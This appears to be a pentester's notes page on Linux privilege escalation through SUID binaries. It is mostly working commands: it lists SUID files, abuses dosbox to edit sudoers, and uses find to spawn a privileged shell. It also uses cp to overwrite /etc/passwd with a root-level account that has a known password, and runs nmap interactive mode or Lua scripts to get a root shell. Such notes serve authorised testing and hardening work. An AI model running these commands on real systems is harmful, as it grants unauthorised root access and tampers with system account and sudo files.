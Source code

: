 ```yaml
---
description: Using programs which has SUID bit to root shell.
---
```


# SUID

```
find / -perm -u=s -type f 2>/dev/null
```

{% embed url="https://gtfobins.github.io" %}

### dosbox

```
$ dosbox -c 'mount c /etc' -c 'echo test ALL=(ALL) ALL >> C:\sudoers' -c exit
```

### find

```
find . -exec /bin/sh -p \; -quit
```

### cp

[https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/](https://www.hackingarticles.in/linux-for-pentester-cp-privilege-escalation/)

```
$ openssl passwd -1 -salt ignite pass123
$1$ignite$3eTbJm98O9Hz.k1NTdNxe1

$ mkdir /tmp/privesc && cd /tmp/privesc
$ cp /etc/passwd .
$ cp passwd passwd.bak

$ echo "ch:\$1\$ignite\$3eTbJm98O9Hz.k1NTdNxe1:0:0:root:/root:/bin/bash" >> ./passwd
$ cp ./passwd /etc/passwd

$ su ch
password: pass123

# Restoring the original
$ cp /tmp/privesc/passwd /etc/passwd && rm -rf /tmp/privesc
```

### nmap

```
$ nmap --interactive
nmap> !sh

-----------------------

$ TF=$(mktemp)
$ echo 'os.execute("/bin/bash")' > $TF
$ nmap --script=$TF

-----------------------

$ echo 'os.execute("/bin/sh")' > /tmp/x.nse
$ nmap --script /tmp/x.nse
```
